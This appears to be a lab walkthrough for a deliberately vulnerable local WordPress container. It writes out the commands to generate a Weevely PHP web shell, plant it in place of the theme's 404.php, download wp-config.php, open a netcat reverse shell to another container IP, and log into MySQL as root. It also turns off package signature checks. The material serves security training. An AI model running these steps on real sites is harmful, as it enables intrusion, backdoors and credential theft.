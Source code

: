 1. Run a vulnerable Wordpress host: https://github.com/vavkamil/dvwp

```bash
git clone https://github.com/vavkamil/dvwp.git
cd dvwp
docker-compose up -d --build
docker-compose run --rm wp-cli install-wp

#docker-compose down to shut down the container
```

2. Enable 404 page

Access WP-Admin:
- Navigate to [http://localhost:31337/wp-admin](http://localhost:31337/wp-admin)
Regenerate permalinks:
- Go to **Settings → Permalinks**.
- Select **Post name** and click **Save**.


3. Generate a webshell
   
- run Weevely inside the same wp netowrk `docker run --rm -it --network <NOME_NETWORK> janes/weevely bash`
- `weevely generate mypassword agent.php`

4. Overwrite 404.php in wordpress conteiner with the contents of agent.php (the code generated by weevely).
   
-  `docker cp agent.php fefea0975eb6:/var/www/html/wp-content/themes/twentytwenty`
-  rename the original 404.php to 404.bak.php
-  rename agent.php to 404.php

5. weevely connection

- start a session inside Weevely container: `weevely http://172.21.0.3/wp-content/themes/twentytwenty/404.php  mypassword`
    - to now container ip: `docker inspect -f '{{range .NetworkSettings.Networks}}{{.IPAddress}}{{end}}' <container-id>`
- interact with the web shell



6. Exploitation (command insert in weevely shell --> open two terminals)

- file_download /var/www/html/wp-config.php ./wp-config.php
- nc -lvp 8181 (first weevely terminal)
- backdoor_reversetcp 172.21.0.4 8181 (second weevely terminal)
- mysql --user=root --password=password --host=mysql (first weevely terminal)
- SHOW DATABASES;

REFERENCES:
https://www.acunetix.com/blog/articles/web-shells-action-introduction-web-shells-part-4/



------TRHOUBLESHOOTING------

NOTE: if you have problem with mysql client installation in Wordpress container, because of old debian version, you can fix it with the following commands:

```bash
sed -i 's|http://deb.debian.org/debian|http://archive.debian.org/debian|g' /etc/apt/sources.list
sed -i 's|http://security.debian.org|http://archive.debian.org/|g' /etc/apt/sources.list
echo 'Acquire::Check-Valid-Until "false";' > /etc/apt/apt.conf.d/99no-check-valid-until
apt update
apt install -y default-mysql-client
#TEST CONNECTION
mysql --user=root --password=password --host=172.21.0.2
```
 
NOTE: if you want to use  :backdoor_reversetcp in weevely, you can install netcat in the weevely container with the following commands:

```bash
echo "deb http://archive.debian.org/debian jessie main" > /etc/apt/sources.list
echo "deb http://archive.debian.org/debian-security jessie/updates main" >> /etc/apt/sources.list
echo 'Acquire::Check-Valid-Until "false";' > /etc/apt/apt.conf.d/99no-check-valid-until
apt-get update
apt-get install -y --allow-unauthenticated netcat
```
